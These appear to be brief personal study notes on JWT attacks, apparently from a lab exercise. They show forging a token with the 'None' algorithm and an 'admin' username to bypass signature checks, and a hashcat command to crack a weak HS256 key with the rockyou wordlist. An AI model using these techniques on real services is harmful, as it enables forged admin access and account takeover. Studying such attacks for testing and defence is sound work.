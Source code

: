 ____

https://jwt.io/

# Bypassing signature checks

![[Pasted image 20241216131947.png]]
{"typ":"JWT","alg":"None"}
eyJ0eXAiOiJKV1QiLCJhbGciOiJOb25lIn0=

{"username":"admin"}
eyJ1c2VybmFtZSI6ImFkbWluIn0=

the same
ODnAXt9IXHDcP17XNR1yqHedzpifSsIejjDujNyiyRI

![[Pasted image 20241216132847.png]]

# Crackable key

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0In0.TXSbnEmdp-kgdKfOflVsbifEd8AYZn0JEnAIBqG0QQY
```

```bash
hashcat -m 16500 -a 0 jwt.txt /usr/share/seclists/rockyou.txt
```

![[Pasted image 20241216133932.png]]